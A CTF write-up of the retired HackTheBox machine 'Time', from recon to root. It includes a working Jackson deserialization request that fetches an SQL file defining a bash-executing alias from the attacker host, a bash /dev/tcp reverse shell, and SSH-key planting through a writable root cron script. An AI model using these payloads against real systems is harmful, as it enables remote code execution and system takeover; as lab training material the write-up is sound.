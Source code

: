 Title:HTB: Time
Date: 04-07-2021 19:20
category:security
tags:security, boot2root, HTB, linux, jackson, deserialization
meta:security, boot2root, HTB, linux, jackson, deserialization

<img class="align-left" src="/media/2021.04/time_card.png" alt="Time Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Time](https://www.hackthebox.com/home/machines/profile/286) publish on
October 24, 2020 by
[egotisticalSW](https://www.hackthebox.com/home/users/profile/94858) and
[felamos ](https://www.hackthebox.com/home/users/profile/27390).
This box is rated as a medium box. It implies a hard foothold using Jackson and
some Google fu. The root part is quit fast as there is a writable bash script
running regularly as root.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Wed Nov  11 12:02:12 2020 as: nmap -sS -p- -oN nmap 10.129.29.179
    Nmap scan report for 10.129.29.179
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Wed Nov  11 12:02:28 2020 -- 1 IP address (1 host up) scanned in 15.91 seconds

## Web

The website is an online tool to beautify and validate json data.

![time homepage](/media/2021.04/time_01.png)

When we try to validate "garbage" input. We got an error message "Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'qe': was expecting ('true', 'false' or 'null')"

We see that the website is using the Jackson library.

As we want a RCE we start a few Google search with "jackson fasterxml rce".
The results are from 2017:

* https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062


We continue our searches and finally get to "jackson gadget". Which lead us to a
more recent [article about Jackson gadgets](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).


We send the following request (we just URL encoded the data parameter)

    :::text
    POST / HTTP/1.1
    Host: 10.129.29.179
    User-Agent: Mozilla/4.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 174
    Origin: http://10.129.29.179
    Connection: close
    Referer: http://10.129.29.179/
    Upgrade-Insecure-Requests: 1

    mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT+FROM+'http://10.10.14.25:8000/inject.sql'"}]

Our inject.sql file looks like the following:

    :::text
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('<payload>')


We start with a first simple payload `wget http://10.10.14.25:8000/rce`
as we see the query in our python server log we know that we have RCE

We change the payload to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
`bash -i >& /dev/tcp/10.10.14.25/4242 0>&1`

This allows us to get a shell and grab the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p4242
    bash: cannot set terminal process group (958): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ cat /home/pericles/user.txt
    cat /home/pericles/user.txt
    74555f76d2e8013945afd9233ca2f219

# Root

We start by checking our privileges. We are not part of any specific group. As we don't know our password we cannot use sudo.

    :::text
    pericles@time:/var/www/html$ id
    id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

As we want to transfer file and have a better shell, we "upload" our SSH key:

    :::text
    mkdir /home/pericles/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFvS<SNIP>' > /home/pericles/.ssh/authorized_keys

We upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) using scp and run it.
We discover that we have access to the /usr/bin/timer_backup.sh file (read and write)

    :::text
    [+] .sh files in path
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
    /usr/bin/gettext.sh
    You own the script: /usr/bin/timer_backup.sh
    /usr/bin/rescan-scsi-bus.sh

We take a look at the file. It seems that root is regulary making a backup of the website.


    :::text
    pericles@time:~$ cat /usr/bin/timer_backup.sh
    #!/bin/bash
    zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip


We modify the file using Vim and add the following lines

    :::text
    mkdir /root/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFv<SNIP>' > /root/.ssh/authorized_keys

Waiting a few seconds and connecting back to the box with the root user allow us to get a shell and grab the flag.


    :::text
    kali@kali:~$ ssh root@10.129.29.179
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    <SNIP>

    Last login: Fri Oct 23 10:05:26 2020
    root@time:~# cat root.txt
    50fb5aa6e01ec64a77c48d42cf533088

# Wrapping up

The root part was easy, the jackson exploitation was harder and mostly some Google fu.
Nonetheless an interesting box to play with Java Deserialization vulnerabilities.

